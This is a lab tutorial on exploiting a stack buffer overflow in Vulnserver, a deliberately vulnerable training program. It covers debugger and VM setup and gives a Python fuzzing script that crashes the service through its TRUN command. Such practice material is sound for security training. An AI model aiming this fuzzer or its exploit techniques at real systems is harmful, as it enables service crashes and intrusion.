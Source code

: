 ```yaml
---
title: "Vulnserver - Stack Based Buffer Overflow"
date: 2020-01-19 
header:  
excerpt: "Vulnserver - Stack Based Buffer Overflow"
---
```


##  Intro

Vulnserver is an intentionally vulnerable software that can be found from [thegreycorner's blog](http://www.thegreycorner.com/p/vulnserver.html) or alternatively on their [GitHub](https://github.com/stephenbradshaw/vulnserver).

The software has multiple different Buffer Overflow vulnerabilities of which the Stack Based Buffer Overflow using the TRUN command is the simplest.

To practice exploiting the software we need the following
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
* [Mona.py](https://github.com/corelan/mona)
* Vulnserver
* Windows 10 (**32-Bit**)

## Setup

I will be using [VMware Workstation pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0), you could alternatively use [VirtualBox](https://www.virtualbox.org/wiki/Downloads) which is free. Select the version  based on your operating system e.g. Windows.
After downloading the preferred Virtualization platform we need to create the two Virtual Machines Windows & Kali.

After creating the VMs, start up Windows VM and download vulnserver, immunity debugger & mona.

### Setting up Immunity Debugger

Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
fill the form, you can put random information in the fields.

![immu1](/images/vulnserver/stack/immu1.PNG)

Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**

![mona1](/images/vulnserver/stack/mona1.PNG)

You can now open Immunity Debugger by right clicking the shortcut and "run as administrator"

![immu2](/images/vulnserver/stack/immu2.PNG)

### Setting up Vulnserver

Download the Vulnserver software and extract it somewhere where it is easy to access such as the Desktop.

![vuln1](/images/vulnserver/stack/vuln1.PNG)

In the vulnserver folder there a few files, start the vulnserver.exe by right clicking it and "run as administrator"

![vuln2](/images/vulnserver/stack/vuln2.PNG)

You now have vulnserver up and running

![vuln3](/images/vulnserver/stack/vuln3.PNG)


## Exploiting TRUN Command

Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
the commands by issuing the command **HELP** after connecting.

![exp1](/images/vulnserver/stack/exp1.PNG)

First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be something like

```python
#!/usr/bin/python
import sys, socket
from time import sleep

host = "192.168.209.133"
port = 9999

buffer = "A" * 100

while True:
         try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((host,port))
                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100

         except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```